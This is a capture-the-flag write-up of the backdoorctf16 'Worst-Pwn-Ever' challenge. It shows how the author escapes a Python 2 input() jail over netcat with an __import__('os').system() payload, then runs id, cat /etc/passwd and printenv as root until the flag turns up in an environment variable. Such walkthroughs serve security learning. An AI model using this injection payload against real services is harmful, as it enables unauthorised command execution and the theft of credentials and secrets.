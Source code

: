 ```yaml
---
layout: post
title: "backdoorctf16 : Worst-Pwn-Ever"
author: dade
date: 2016-06-07 18:37:00 -0700
slug: worst-pwn-ever
category:
- 2016
- backdoorctf
---
```

**Category:** pwn
**Points:** 100
**Description:**

>tocttou is an enviornmentalist. But some say he has a vicious motive and he uses nature to hide his dark side. We found a weird shell on his amazon (pun inteded) web services. Can you tell us what is he upto? Tip: he might shut down the machine if he notices you - and he will (maybe in 45 seconds). <br />Access: nc hack.bckdr.in 9008
<br />
Created by: Ashish Chaudhary

# Investigation
When we first netcat into that service, we're simply presented with a `>` prompt. Let's try a couple commands useful recon commands and see what happens.

```
dade@gibson:~$ nc hack.bckdr.in 9008
> id
dade@gibson:~$ 
```

Well that didn't return anything, it just closed our session. Interesting. Let's try another.

```
dade@gibson:~$ nc hack.bckdr.in 9008
> whoami
NameError: name 'whoami' is not defined
--> WHAT ARE YOU DOING HERE? >-[
dade@gibson:~$ 
```

Well that's interesting, we got ourselves a NameError and an angry message. I write a lot of python, so NameError is familiar to me. It looks like we're in a python shell of some sort. A bit of googling around and I found this [nice writeup](https://blog.inexplicity.de/plaidctf-2013-pyjail-writeup-part-i-breaking-the-sandbox.html) about an old plaidCTF challenge called "pyjail". This gave me some valuable information on breaking out of python jails. Let's try to do an import.

```
dade@gibson:~$ nc hack.bckdr.in 9008
> import os 
NameError: invalid syntax (<string>, line 1)
--> WHAT ARE YOU DOING HERE? >-[
dade@gibson:~$ 
```

Interesting, now we can see an invalid syntax error instead of a name not defined error. I bet since it's prompting us for input, it's probably got the input() module loaded. Let's see if we can manipulate that a bit.

```
dade@gibson:~$ nc hack.bckdr.in 9008
> input(__builtins__)
<module '__builtin__' (built-in)>import os
NameError: invalid syntax (<string>, line 1)
--> WHAT ARE YOU DOING HERE? >-[
dade@gibson:~$
```
# Breaking out of the sandbox

Neat, now we see that we can access `__builtins__`. To learn more about what functions are built in, read the [python docs](https://docs.python.org/2/library/functions.html). 

Let's see how far we can take this and try to do a call directly from the builtins.

```
dade@gibson:~$ nc hack.bckdr.in 9008
> input(__builtins__.__import__('os'))
<module 'os' from '/usr/lib/python2.7/os.pyc'>^C
dade@gibson:~$
```

Now we know we can import os. That's great news for us, `import os` gives us access to all sorts of useful system utilities.

```
dade@gibson:~$ nc hack.bckdr.in 9008
> input(__builtins__.__import__('os').system("id"))
uid=0(root) gid=0(root) groups=0(root)
0
NameError: unexpected EOF while parsing (<string>, line 0)
--> WHAT ARE YOU DOING HERE? >-[
dade@gibson:~$
```

In this, I hit enter because I wasn't sure what that final 0 was doing there. It caused us to get caught and kicked out. But that's okay, we just ran the "id" command on the target and found out this python script is running as root. Let's try to get some other information from it. 

```
dade@gibson:~$ nc hack.bckdr.in 9008
> input(__builtins__.__import__('os').system("cat /etc/passwd"))
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
0input(__builtins__.__import__('os').system("ls -la ~"))       
total 16
drwx------  2 root root 4096 May  3 16:57 .
drwxr-xr-x 46 root root 4096 Jun  8 08:36 ..
-rw-r--r--  1 root root 3106 Feb 20  2014 .bashrc
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
0^C
```
I discovered here that the 0 that we see is actually just another prompt where we can make another system call. I grabbed the list of users but didn't see any usernames that looked particularly interesting. Our target is a guy named tocctou, and none of those accounts looked like they belonged to him. I then wanted to check out the contents of the root homedir, but it only had `.bashrc` and `.profile`. What else do we know about tocctou?

# Solution
It is sometimes suggested that you use an environmental variable to store sensitive information that a script or something can then access when it needs that sensitve information. This is a [common tactic](http://12factor.net/config) to prevent yourself from accidentally pushing your api keys or passwords to github. We're told in the challenge description that tocctou is a bit of an "environmentalist", which should give us the hint that lets us wrap this all up.

```
dade@gibson:~$ nc hack.bckdr.in 9008
> input(__builtins__.__import__('os').system("printenv"))
HOSTNAME=11a6b24c4b63
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/printenv
_F_L_A_G_='[REDACTED]'
PWD=/scripts
HOME=/root
SHLVL=2
0
```

# Flag

This challenge is hosted permanently at [Backdoor](https://backdoor.sdslabs.co/challenges/WORST-PWN-EVER), so go find the flag yourself!
